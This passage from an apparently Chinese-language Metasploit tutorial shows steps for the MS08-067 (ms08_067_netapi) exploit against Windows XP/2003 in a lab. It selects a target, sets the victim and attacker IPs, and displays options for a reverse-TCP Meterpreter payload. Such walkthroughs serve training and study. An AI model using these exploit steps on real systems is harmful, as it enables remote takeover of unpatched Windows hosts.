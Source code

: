 ```
   8   Windows 2003 SP1 English (NO NX)
   9   Windows 2003 SP1 English (NX)
   10  Windows 2003 SP1 Japanese (NO NX)
   11  Windows 2003 SP2 English (NO NX)
   12  Windows 2003 SP2 English (NX)
   13  Windows 2003 SP2 German (NO NX)
   14  Windows 2003 SP2 German (NX)
   15  Windows XP SP2 Arabic (NX)
   16  Windows XP SP2 Chinese - Traditional / Taiwan (NX)
   17  Windows XP SP2 Chinese - Simplified (NX)
   ......
```

5、选定系统编号（TARTGET），设置靶机IP（RHOST）与本机IP（LHOST） 

```
msf exploit(ms08_067_netapi) > set TARGET 17
TARGET => 17
msf exploit(ms08_067_netapi) > set RHOST 192.168.116.129
RHOST => 192.168.116.129
msf exploit(ms08_067_netapi) > set LHOST 192.168.116.128
LHOST => 192.168.116.128
```

6、使用“show options”命令查看当前参数设置情况： 

```
msf exploit(ms08_067_netapi) > show options 
 
Module options (exploit/windows/smb/ms08_067_netapi):
 
   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOST    192.168.116.129  yes       The target address
   RPORT    445              yes       Set the SMB service port
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)
 
 
Payload options (windows/meterpreter/reverse_tcp):
 
   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (accepted: seh, thread, process, none)
   LHOST     192.168.116.128  yes       The listen address
   LPORT     4444             yes       The listen port
 
 
Exploit target:
 
   Id  Name
   --  ----
   17  Windows XP SP2 Chinese - Simplified (NX)
```
